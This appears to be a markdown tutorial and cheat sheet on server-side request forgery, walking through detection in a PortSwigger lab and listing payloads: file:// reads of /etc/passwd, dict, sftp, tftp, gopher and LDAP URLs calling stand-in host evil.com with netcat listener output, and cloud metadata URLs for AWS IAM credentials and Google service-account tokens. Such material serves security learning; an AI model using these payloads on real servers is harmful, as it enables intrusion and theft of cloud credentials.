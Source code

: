 ## SSRF(Server-side request forgery)

  Server-side request forgery (also known as SSRF) is a web security vulnerability 
  that allows an attacker to induce the server-side application to make requests to an unintended location. 
  
  In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure.
  In other cases, they may be able to force the server to connect to arbitrary external systems,potentially 
  leaking sensitive data such as authorization credentials. 


 ## How To Find SSRF 
 
  First check the all url rquest in burp proxy, and observe that request,find 2 urls first url sand request to server and secand url sand request to
  server and server call to secand server request, here is posible SSRF vulnerability 
 
  
## EX:

 1. In a simple way - Attacker asks the server to fetch a URL for him

        GET /?url=http://google.com/ HTTP/1.1
        Host: example.com
        
 Here example.com fetch http://google.com from its server, here posible SSRF vulnerability
 
 2. Here cheack a stock check products 

        POST /product/stock HTTP/1.1
        Host: 0a6800110358b1bfc093443000f600a4.web-security-academy.net
        Cookie: session=mewjzSnDMV8c3uT7hIo493arKt9OuuH9
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
        Accept: */*
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Referer: https://0a6800110358b1bfc093443000f600a4.web-security-academy.net/product?productId=1
        Content-Type: application/x-www-form-urlencoded
        Origin: https://0a6800110358b1bfc093443000f600a4.web-security-academy.net
        Content-Length: 107
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
        Connection: close

       stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
    
    
 ## First url in request Host url
 
    Host: 0a6800110358b1bfc093443000f600a4.web-security-academy.net
    
## Secand Url in request StockApi 

    stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
    
 stockapi is request is another server call, here is posible SSRF vulnerability
     
    
 ## Types of SSRF -
 
   Two Type of SSRF 
   
   i. The one which displays response to attacker ( Basic )
   
   ii. The one which does not display response ( Blind )
   
   
## What can we do with SSRF? -

   SSRF to Reflected XSS
   
   Try URL schemas to read internal and make server perform actions (file:///, dict://, ftp://, gopher://..)
   
   We can scan for internal networks and ports
   
   If it runs on Cloud Instances try to fetch META-DATA
   
 ## SSRF to Reflected XSS -
 
  Simply fetch a file from external sites which has malicious payload with content type served as html
  
  Example -
  
    http://localhost:4567/?url=http://brutelogic.com.br/poc.svg
  
 ## Testing URL schemas -
 
   First thing to do when we find an SSRF is to test all the wrapper which are working
   
    file:///
    dict://
    sftp://
    ldap://
    tftp://
    gopher://
    
    
## file:// -
 
   File is used to fetch file from the file system
   
    http://example.com/ssrf.php?url=file:///etc/passwd
    http://example.com/ssrf.php?url=file:///C:/Windows/win.ini
    
 If the server block http request to external sites or whitelist you could simply use below URL schemas to make a request
 
 ## dict:// -
 
  DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:
  
    http://example.com/ssrf.php?dict://evil.com:1337/

    evil.com:$ nc -lvp 1337
    Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
    CLIENT libcurl 7.40.0
  
 ## sftp:// -
 
 Sftp stands for SSH File Transfer Protocol, or Secure File Transfer Protocol,
 is a separate protocol packaged with SSH that works in a similar way over a secure connection.
 
     http://example.com/ssrf.php?url=sftp://evil.com:1337/

     evil.com:$ nc -lvp 1337
     Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
     SSH-2.0-libssh2_1.4.2
  
  
## ldap:// or ldaps:// or ldapi:// -

LDAP stands for Lightweight Directory Access Protocol.
It is an application protocol used over an IP network to manage and access the distributed directory information service.

    http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit
    http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit
    http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
  
 ## tftp:// -
 
 Trivial File Transfer Protocol is a simple lockstep File Transfer Protocol which allows a client to get a file from or put a file onto a remote host
 
    http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET

    evil.com:# nc -lvup 1337
    Listening on [0.0.0.0] (family 0, port 1337)
    TESTUDPPACKEToctettsize0blksize512timeout3
    
 ## gopher:// -
 
   Gopher, is a distributed document delivery service. It allows users to explore, 
   search and retrieve information residing on different locations in a seamless fashion
   
    http://example.com/ssrf.php?url=http://attacker.com/gopher.phpgopher.php (host it on acttacker.com):-
    <?php
    header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
    ?>

    evil.com:# nc -lvp 1337
    Listening on [0.0.0.0] (family 0, port 1337)
    Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398) 
    Hi
    ssrf
    test
    
 ## Cloud Instances -
  
  Amazon:
  
  If you find an SSRF in Amazon Could, Amazon expose an internal service every EC2 instance can query for instance metadata about the host.
  If you found an SSRF vulnerability that runs on EC2, try requesting :
  
    http://169.254.169.254/latest/meta-data/
    http://169.254.169.254/latest/user-data/
    http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE
    http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
    
 This will give our juicy information like Aws keys, ssh keys and more
 
 
## Google Cloud -

  Same for google
  
     http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
     http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
